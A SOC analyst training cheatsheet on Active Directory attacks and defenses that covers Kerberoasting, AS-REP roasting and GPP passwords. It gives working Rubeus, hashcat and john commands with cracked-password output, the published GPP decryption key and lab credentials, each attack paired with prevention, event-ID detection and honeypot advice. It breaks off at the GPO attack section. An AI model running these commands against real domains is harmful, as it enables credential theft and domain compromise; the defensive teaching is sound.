# 🛡️ WINDOWS ATTACKS & DEFENSE

## SOC Analyst Cheatsheet - Module 6/15

---

## 0. Overview

This module covers **Active Directory attacks and defense** - common attack techniques targeting Windows environments, detection methods, and preventive measures.

> 📌 **Key Focus**: Kerberos authentication abuse, credential harvesting, privilege escalation, and AD misconfigurations

### Key Takeaways

| Concept | Description |
|---------|-------------|
| **Kerberoasting** | Obtaining TGS tickets and cracking offline |
| **AS-REP Roasting** | Obtaining hashes for accounts with no preauth |
| **GPP Passwords** | Decrypting cached credentials in SYSVOL |
| **DCSync** | Mimicking domain controller for credential replication |
| **Golden Ticket** | Forging Kerberos TGT with KRBTGT hash |

### Prerequisites

- Basic understanding of Active Directory
- Familiarity with Windows authentication (Kerberos, NTLM)
- Understanding of LDAP protocols
- Basic PowerShell knowledge

---

## Table of Contents

1. [Introduction and Terminology](#1-introduction-and-terminology)
2. [Overview and Lab Environment](#2-overview-and-lab-environment)
3. [Kerberoasting](#3-kerberoasting)
4. [AS-REP Roasting](#4-as-rep-roasting)
5. [GPP Passwords](#5-gpp-passwords)
6. [GPO Permissions / GPO Files](#6-gpo-permissions--gpo-files)
7. [Credentials in Shares](#7-credentials-in-shares)
8. [Credentials in Object Properties](#8-credentials-in-object-properties)
9. [DCSync](#9-dcsync)
10. [Golden Ticket](#10-golden-ticket)
11. [Kerberos Constrained Delegation](#11-kerberos-constrained-delegation)
12. [Print Spooler & NTLM Relaying](#12-print-spooler--ntlm-relaying)
13. [Coercing Attacks & Unconstrained Delegation](#13-coercing-attacks--unconstrained-delegation)
14. [Interview Questions](#14-interview-questions)
15. [Additional Resources](#15-additional-resources)

---

## 1. Introduction and Terminology

### What is Active Directory?

> 📌 **Active Directory (AD)** is a directory service for Windows enterprise environments that provides centralized management of resources including users, computers, groups, and policies.



Active Directory is the most critical service in any enterprise. A compromise of an AD environment means unrestricted access to all its systems and data.

### AD Structure



### AD Key Terms

| Term | Description |
|------|-------------|
| **Domain** | Group of objects sharing the same AD database |
| **Tree** | One or more domains grouped (e.g., test.local, staging.test.local) |
| **Forest** | Topmost level, composed of multiple trees |
| **OU** | Organizational Units - containers for users, computers, other OUs |
| **Domain Controller** | Server providing Authentication and Authorization |
| **NTDS.DIT** | The most critical file in AD environment - stores password hashes |
| **KRBTGT** | Account storing secrets for TGT validation |
| **SYSVOL** | Network share containing GPOs and logon scripts |

### What Regular Users Can Enumerate



A regular AD user account with no added privileges can enumerate:

- Domain Computers
- Domain Users
- Domain Group Information
- Default Domain Policy
- Domain Functional Levels
- Password Policy
- Group Policy Objects (GPOs)
- Kerberos Delegation
- Domain Trusts
- Access Control Lists (ACLs)

### Authentication in Windows Environments



| Type | Description |
|------|-------------|
| **Username/Password** | Stored as LM, NTLM, NetNTLMv1/NetNTLMv2 hashes |
| **Kerberos Tickets** | TGT (Ticket Granting Ticket) and TGS (Ticket Granting Service) |
| **LDAP Authentication** | Username/password or certificate-based |

### Kerberos Components



> 📌 **Key Distribution Center (KDC)** - Kerberos service on Domain Controller that creates tickets

- **TGT** - Proof the client submitted valid user info to KDC
- **TGS** - Created for each service the client wants to access
- **KRBTGT** - Account storing secrets for TGT validation - AD auto-rotates this password

### Privileged Groups in AD



| Group | Description |
|-------|-------------|
| **Domain Admins** | Added to Administrators on all domain-joined machines |
| **Enterprise Admins** | Permissions over all domains in the forest |
| **Account Operators** | Can reset user passwords - privilege escalation risk |
| **Administrators** | Can manage any AD object |

> ⚠️ **Account Operators Risk**: Can modify MSOL_ users (Azure AD Connect) to escalate to Domain Admin!

### Windows Logon Types

| Logon Type | Description | Leaves Credentials |
|------------|-------------|-------------------|
| 2 | Interactive | ✅ Yes |
| 3 | Network | ❌ No |
| 4 | Batch | ✅ Yes |
| 5 | Service | ✅ Yes |
| 7 | Unlock | ✅ Yes |
| 8 | NetworkClearText | ✅ Yes |
| 9 | NewCredentials | ✅ Yes |
| 10 | RemoteInteractive (RDP) | ✅ Yes |

### LDAP and RSAT Tools



- **LDAP** - Protocol used to communicate with AD Domain Controllers
- **RSAT** - Remote Server Administration Tools for AD management
  - **ADUC** - View/edit/create AD objects (users, groups, computers)
  - **GPM** - Create and modify Group Policies

### Important Network Ports

| Port | Service |
|------|---------|
| 53 | DNS |
| 88 | Kerberos |
| 135 | WMI/RPC |
| 137-139, 445 | SMB |
| 389, 636 | LDAP |
| 3389 | RDP |
| 5985, 5986 | WinRM |

### AD Limitations and Attack Surface

> 🔴 **Complexity** - Nested group members can lead to unintended Domain Admin memberships

> 🔴 **Design** - SYSVOL access over SMB allows code execution with valid credentials

> 🔴 **Legacy** - NetBIOS and LLMNR broadcast credentials on the wire

### Real-World View - AD Service Classification



> 📌 **Key Point**: Any service that can escalate to Domain Controller should be treated as DC-level security!

### AD Limitations and Attack Surface

| # | Attack | Description |
|---|--------|-------------|
| 1 | Kerberoasting | Crack service account passwords from TGS tickets |
| 2 | AS-REP Roasting | Crack passwords from accounts without preauthentication |
| 3 | GPP Passwords | Decrypt cached credentials in SYSVOL |
| 4 | GPO Permissions | Abuse misconfigured Group Policy |
| 5 | Credentials in Shares | Find credentials in network shares |
| 6 | Credentials in Object Properties | Hunt credentials in user attributes |
| 7 | DCSync | Replicate domain controller data |
| 8 | Golden Ticket | Forge Kerberos TGT |
| 9 | Kerberos Constrained Delegation | Abuse delegation settings |
| 10 | Print Spooler & NTLM Relaying | Relay authentication |
| 11 | Coercing Attacks | Force DC authentication |
| 12 | Object ACLs | Abuse Access Control Lists |
| 13 | PKI ESC1 | Certificate misconfigurations |
| 14 | PKI ESC8 | Coercing + Certificates |

### Lab Environment

| Machine | IP Address |
|---------|-----------|
| DC1 | 172.16.18.3 |
| DC2 | 172.16.18.4 |
| Server01 | 172.16.18.10 |
| PKI | 172.16.18.15 |
| WS001 | 172.16.18.25 |
| Kali Linux | 172.16.18.20 |

### Connecting to Lab

**Connect to WS001 via RDP:**

```bash
xfreerdp /u:eagle\\bob /p:Slavi123 /v:TARGET_IP /dynamic-resolution
```

> 📌 **Credentials**: User: `bob`, Password: `Slavi123`


File Explorer open on FreeRDP session.


**Connect to Kali via SSH:**

```bash
ssh kali@TARGET_IP
```

> 📌 **Credentials**: `kali/kali`


**File Transfer between machines:**

```bash
smbclient \\\\TARGET_IP\\Share -U eagle/administrator%Slavi123
```

> 📌 **Credentials**: `eagle/administrator:Slavi123`


**File Explorer showing Share folder properties with network path \WS001\Share.**

---

## 3. Kerberoasting

### Description

> 📌 **Kerberoasting** exploits Kerberos authentication by obtaining TGS tickets and cracking them offline to reveal service account passwords.

```mermaid
graph LR
    Attack[Kerboreaning Attack] --> Step1[1. Enumerate SPNs]
    Step1 --> Step2[2. Request TGS]
    Step2 --> Step3[3. Capture Ticket]
    Step3 --> Step4[4. Crack Offline]
    Step4 --> Creds[Get Service Password]
    
    style Attack fill:#ffcccc,stroke:#333
    style Step1 fill:#ffe5cc,stroke:#333
    style Step2 fill:#cce5ff,stroke:#333
    style Step3 fill:#cce5ff,stroke:#333
    style Step4 fill:#e6ccff,stroke:#333
    style Creds fill:#ff9999,stroke:#333
```

When a Kerberos TGS service ticket is requested, it gets encrypted with the service account's NTLM password hash. Success depends on password strength.

**Encryption Types:**

| Type | Cracking Speed | Notes |
|------|---------------|-------|
| AES | Slowest | Most secure |
| RC4 | Faster | Commonly used |
| DES | Fastest | Legacy, rarely used |

> 🔴 Attackers can force downgrade to RC4 for faster cracking.

### Attack Path



**Step 1: Obtain crackable tickets**

```powershell
.\Rubeus.exe kerberoast /outfile:spn.txt
```


Rubeus extracts tickets for all users with SPN registered.

**Step 2: Crack with hashcat**

```bash
hashcat -m 13100 -a 0 spn.txt passwords.txt --outfile="cracked.txt"
```

> 📌 **Hashcat Mode**: 13100 = Kerberos 5 TGS-REP

> 💡 **Tip**: If hashcat gives an error, add `--force` at the end

**View cracked password:**

```bash
cat cracked.txt
# Output: $krb5tgs$23$*Administrator$eagle.local$...:Slavi123
```


**Cracked result:**


**Alternative: Crack with John**

```bash
john spn.txt --format=krb5tgs --wordlist=passwords.txt
```

**Alternative: Crack with John The Ripper:**

```bash
sudo john spn.txt --fork=4 --format=krb5tgs --wordlist=passwords.txt --pot=results.pot

# Output:
# Using default input encoding: UTF-8
# Loaded 3 password hashes with 3 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
# Node numbers 1-4 of 4 (fork)
# Slavi123         (?)
```

> ⚠️ **Be Careful!** Don't implement every honeypot detection - it makes traps obvious to threat actors. Choose the ones that work best for your environment.

### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Strong Passwords** | Use 100+ random characters for service accounts |
| **GMSA** | Use Group Managed Service Accounts when possible |
| **Limit SPNs** | Only assign SPNs when absolutely necessary |
| **Regular Cleanup** | Remove SPNs for decommissioned services |

### Detection

> 📌 **Event ID 4769** - Kerberos ticket requested


**Event 4769**: Kerberos ticket request by bob@EAGLE.LOCAL for Administrator service from IP 172.16.18.25, using RC4 encryption.

**High volume detection:**


| Detection Method | Description |
|-----------------|-------------|
| **Volume Alert** | Alert if >10 tickets requested within 1 minute |
| **RC4 Alert** | Alert on RC4 encryption type (not default) |
| **AES-Only** | Require AES encryption for all tickets |
| **Source IP** | Group by requesting machine/IP |

**Honeypot Approach:**

- Create fake service account with SPN
- Alert on ANY TGS request for that account
- Use old IIS/SQL service account names

**Honeypot Best Practices:**

1. Account must be relatively old (bogus account) - attackers avoid new accounts
2. Password should be 2+ years old, ideally 5+ years
3. Account must have some privileges - otherwise not interesting to attackers
4. Account must have a legit-sounding SPN (IIS, SQL accounts are good)

> 📌 Any activity with honeypot account (successful or failed logons) should be alerted!

**Honeypot triggered example:**


> ⚠️ **Be Careful!** Don't implement every honeypot detection - it makes traps obvious to threat actors. Choose the ones that work best for your environment.

---

## 4. AS-REP Roasting

### Description

> 📌 **AS-REP Roasting** targets accounts with "Do not require Kerberos preauthentication" enabled, allowing offline password cracking.



### Attack Path



**Step 1: Obtain crackable hashes**

```powershell
.\Rubeus.exe asreproast /outfile:asrep.txt
```


**Step 2: Prepare hash for hashcat**

Add `23$` after `$krb5asrep$`:

```
$krb5asrep$23$anni@eagle.local:hash...
```

**Step 3: Crack with hashcat**

```bash
sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

```

> 📌 **Hashcat Mode**: 18200 = Kerberos 5 AS-REP

**View cracked password:**

```bash
sudo cat asrepcrack.txt
# Output: $krb5asrep$23$anni@eagle.local:...:Slavi123
```


**Cracked result:**


### Prevention

| Mitigation | Description |
|-----------|-------------|
| **Disable Preauth** | Only enable when absolutely necessary |
| **Strong Passwords** | Minimum 20 characters for affected accounts |
| **Regular Review** | Quarterly audit of accounts with this property |
| **Separate Policy** | Apply stricter password policy to affected accounts |

### Detection

> 📌 **Event ID 4768** - Kerberos authentication ticket generated

**Event 4768 example:**


> 🔴 **Pre-Authentication Type = 0** indicates no preauth (malicious)

| Field | Detection Value |
|-------|-----------------|
| Pre-Authentication Type | 0 (no preauth) |
| Ticket Encryption Type | 0x17 (RC4) |

### Honeypot Approach

Create a fake user account with "Do not require Kerberos preauthentication" enabled. Any AS-REQ for this account is suspicious.

**Honeypot triggered example:**


---

## 5. GPP Passwords

### Description

> 📌 **Group Policy Preferences (GPP)** introduced ability to store credentials in XML policy files stored in SYSVOL.



The encryption key was publicly released by Microsoft in 2014, making decryption trivial.

**Affected Systems**: Windows Server 2008 - Server 2012 R2

**GPP Locations:**

| GPP Type | XML File |
|----------|----------|
| Groups | Groups.xml |
| Users | Users.xml |
| Services | Services.xml |
| Scheduled Tasks | ScheduledTasks.xml |
| Preferences | *.xml |

### AES Encryption Key

```
4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8 f4 96 e8 06 cc 05 79 90 20 9b 09 a4 33 b6 6c 1b
```


**XML Example:**


### Attack Path

```powershell
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```


### Prevention

| Mitigation | Description |
|-----------|-------------|
| **KB2962486** | Apply Microsoft patch from 2014 |
| **No New Credentials** | Don't store passwords in GPP |
| **Remove Old GPP** | Clean up legacy GPP XML files |
| **SYSVOL ACLs** | Restrict access to authenticated users |

> 🔴 Patch does NOT remove existing cached credentials - must be manually cleaned.

> 📌 **Important**: If AD was built before 2014, credentials may still be cached! Continuously assess and review environments.

### Detection

**Method 1: File Access Monitoring**

> 📌 **Event ID 4663** - File accessed

Monitor access to SYSVOL\Policies\*\*.xml files.


**Event 4663 - File accessed (SYSVOL XML):**


**Method 2: Logon Event Correlation**

| Event ID | Description |
|----------|-------------|
| 4624 | Successful logon |
| 4625 | Failed logon |
| 4768 | TGT requested |

> 📌 Correlate logon attempts with GPP credential exposure.


### Honeypot Approach

Create decoy service account with old password. Alert on any login attempts.

**Failed Logon Events:**

| Event ID | Description |
|----------|-------------|
| 4625 | Failed logon |
| 4771 | Failed pre-authentication |
| 4776 | Failed credential validation |

**Event 4625 - Failed logon:**


**Event 4771 - Failed pre-authentication:**


**Event 4776 - Failed credential validation:**


---


## 6. GPO Permissions / GPO Files

### Description

> 📌 **GPO (Group Policy Object)** is a virtual collection of policy settings used for configuration management in Active Directory.



**Attack Vectors:**
- Modify GPO to add malicious startup scripts
- Replace files in network shares deployed via GPO
- Exploit misconfigured NTFS permissions

> 🔴 **Risk**: If less privileged users can edit GPOs, attackers can compromise all computers in the linked OUs!

### Attack

